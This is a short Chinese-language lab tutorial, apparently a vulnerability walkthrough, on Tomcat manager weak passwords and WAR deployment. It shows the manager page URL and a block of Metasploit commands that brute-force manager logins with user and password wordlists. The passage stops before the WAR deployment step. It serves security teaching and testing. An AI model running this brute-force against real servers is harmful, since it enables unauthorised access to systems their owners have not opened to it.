 漏洞为tomcat弱口令和支持在后台部署war文件

1. 访问tomcat管理页面

打开tomcat管理页面 `http://your-ip:8080/manager/html`

<p align="center"><img src="img/2/21.png" width="800px"></p>

2. 使用msf，选择对应的tomcat模块进行爆破

```bash
search tomcat     # 查找爆破模块
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts <目标IP>
set pass_file /root/pass.txt
set user_file /root/user.txt
exploit
```
